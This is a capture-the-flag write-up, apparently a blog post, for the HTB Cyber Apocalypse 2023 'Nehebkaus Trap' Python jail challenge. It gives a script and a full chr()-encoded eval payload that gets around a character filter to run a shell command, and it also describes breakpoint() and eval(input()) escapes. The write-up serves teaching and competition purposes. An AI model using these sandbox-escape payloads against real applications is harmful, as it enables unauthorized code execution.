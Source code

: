 ```yaml
---
description: >-
  Write Up For HTB Cyber Apocalypse CTF 2023 Misc challenge Nehebkaus Trap
title: Nehebkaus Trap
date: 2023-03-23 21:00:00 -0400
categories: [CTFs, HTB Cyber Apocalypse CTF 2023, Misc]
tags: [misc, pyjail]
---
```


In search of the ancient relic, you go looking for the Pharaoh's tomb inside the pyramids. A giant granite block falls and blocks your exit, and the walls start closing in! You are trapped. Can you make it out alive and continue your quest?

-------

As we connect to the target machine, we found ourselves inside a Python shell. However, there was a catch – executing arbitrary code was restricted. The challenge imposed certain limitations by blocking specific characters. Here's a list of the forbidden characters:

```python
('.', '_', '/', '"', ';', ' ', "'", ',')
```

This meant that we couldn't directly run any command or access the coveted `flag.txt` file. But fear not, for we're about to unveil a clever workaround!

After much research and experimentation, we discovered a way to exploit the situation using the `eval()` function. By passing it a string in ASCII numbers format, we could execute the desired commands. To simplify the process, we devised the following Python script:

```python
s = ""
a = '__import__("os").system("cat flag.txt")'
for c in a:
  s += f"chr({str(ord(c))})+"
print(f'eval({s[:-1]})')
```

Let's break down what this script does. It converts each character of the command into its ASCII representation and constructs a new string. Finally, it uses `eval()` to evaluate the generated string as code, enabling the execution of our desired command.

> In Python, the `eval()` function is used to evaluate and execute a string of code as if it were a Python expression. It takes a string as an argument and interprets it as executable code.

Running the script produces both the exploit and its output:

```python
eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(34)+chr(111)+chr(115)+chr(34)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(34)+chr(99)+chr(97)+chr(116)+chr(32)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(34)+chr(41))
```

And the long-awaited result:

```
HTB{y0u_d3f34t3d_th3_sn4k3_g0d!}
```

----

## Further Learning

As the competition drew to a close, my curiosity led me to explore alternative approaches. It turns out, there was a simpler solution that many other teams had employed.

By utilizing the Python debugger shell, we could easily execute any code, including reading the `flag.txt` file. The following commands were particularly ingenious:

```python
breakpoint()
open("flag.txt", "r").read()
```

----

Another exploit that I really liked was:
```python
eval(input())
```

> As mentioned before, the `eval()` function is used to evaluate and execute a string of code as if it were a Python expression. It takes a string as an argument and interprets it as executable code. The `input()` function, on the other hand, prompts the user to enter a value, which is then returned as a string.

Combining these two functions, `eval(input())` allows us to execute any Python code that is entered as input by the user. The user's input is treated as a string, and the eval() function evaluates and executes it as code.

This approach showcased the ingenious thinking of the teams that employed it, demonstrating that sometimes the simplest solutions can be the most effective.


## Conclusion

In conclusion, the Nehebkaus Trap challenge in the HTB Cyber Apocalypse CTF 2023 was an exhilarating experience that tested our problem-solving skills. By leveraging the power of `eval()` and exploring alternative techniques, we managed to overcome the character restrictions and emerge victorious.